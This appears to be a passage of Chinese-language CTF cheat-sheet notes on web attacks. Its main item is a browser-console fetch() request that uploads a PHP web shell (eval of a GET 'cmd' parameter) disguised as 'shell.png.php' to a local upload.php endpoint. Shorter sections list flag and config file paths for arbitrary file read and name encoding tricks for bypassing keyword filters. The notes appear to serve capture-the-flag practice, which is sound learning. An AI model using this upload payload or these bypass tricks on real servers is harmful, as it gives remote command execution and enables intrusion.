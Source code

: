 ```python
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

# 浏览器控制台上传文件
```js
fetch("http://localhost:18044/upload.php", {
  "headers": {
    "accept": "*/*",
    "accept-language": "zh-CN,zh;q=0.9",
    "content-type": "multipart/form-data; boundary=----WebKitFormBoundarypD5Oqfq5VcOyM095",
    "sec-ch-ua": "\"Not/A)Brand\";v=\"99\", \"Google Chrome\";v=\"115\", \"Chromium\";v=\"115\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin"
  },
  "referrer": "http://localhost:18044/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "------WebKitFormBoundarypD5Oqfq5VcOyM095\r\nContent-Disposition: form-data; name=\"file\"; filename=\"shell.png.php\"\r\nContent-Type: image/png\r\n\r\n<?php eval($_GET['cmd']); ?>\r\n------WebKitFormBoundarypD5Oqfq5VcOyM095--\r\n",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```
# 任意文件读取(CTF)
```python
run.sh
run.bash
.dockerfile
.Dockerfile
/flag
/flag.txt
```
# 关键字绕过
- 编码
```python
unicode
hex

```
# 命令执行
